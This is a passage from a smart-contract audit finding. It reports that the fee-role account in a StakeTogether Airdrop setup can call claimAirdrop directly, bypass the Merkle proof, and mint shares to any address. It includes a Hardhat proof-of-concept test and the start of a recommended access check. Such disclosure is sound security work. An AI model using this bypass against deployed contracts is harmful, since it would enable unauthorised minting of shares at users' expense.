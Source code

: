 This vulnerability opens the door to potential abuse, enabling the new user with control over the `airdropFee` to manipulate the airdrop process. This manipulation can lead to unauthorized share transfers to users who are not part of the intended merkle proof recipients. Given that airdrops occur periodically, addressing this issue is paramount to maintaining the integrity and security of the system."

## Impact:
The `airdropFee` has the ability to bypass the `Airdrop.claim()` process and the Merkle Proof, allowing it to transfer shares to any users as desired.

## POC:
Place the test in `Airdrop.test.ts`
```javascript
it('FeeRole.Airdrop account can bypass Airdrop.claimAirdrop to mint shares to any users', async function () {

      //The Setup
      const AirdropFactory = new Airdrop__factory().connect(owner)
      const airdrop2 = await upgrades.deployProxy(AirdropFactory)
      await airdrop2.waitForDeployment()
      const airdropContract2 = airdrop2 as unknown as Airdrop
      const AIR_ADMIN_ROLE = await airdropContract2.ADMIN_ROLE()
      await airdropContract2.connect(owner).grantRole(AIR_ADMIN_ROLE, owner)
      await airdropContract2.connect(owner).setStakeTogether(mockStakeTogetherProxy)
      await airdropContract2.connect(owner).setRouter(owner.address)

      const user1DepositAmount = ethers.parseEther('100')
      const poolAddress = user3.address
      const referral = user4.address
      await mockStakeTogether.connect(owner).addPool(poolAddress, true, false)

      //Set the user5.address as the FeeRole.Airdrop
      await mockStakeTogether.setFeeAddress(0, user5.address);

      const tx1 = await mockStakeTogether
        .connect(user1)
        .depositPool(poolAddress, referral, { value: user1DepositAmount })
      await tx1.wait()

      expect(await mockStakeTogether.shares(user2.address)).to.equal(0)

      //user5 calls the claimAirdrop directly to bypass the function
      await mockStakeTogether.connect(user5).claimAirdrop(user2.address, ethers.parseEther('0.1'))

      expect(await mockStakeTogether.shares(user2.address)).to.equal(ethers.parseEther('0.1'))
    })
```

## Recommendations:
To prevent direct calls to `claimAirdrop` through the StakeTogether contract, a protective measure should be implemented. Please include the following check: `if (msg.sender != address(Airdrop)) revert OnlyAirdropCanBeTheCaller();`. After this fix, the `claimAirdrop` function should appear as follows:

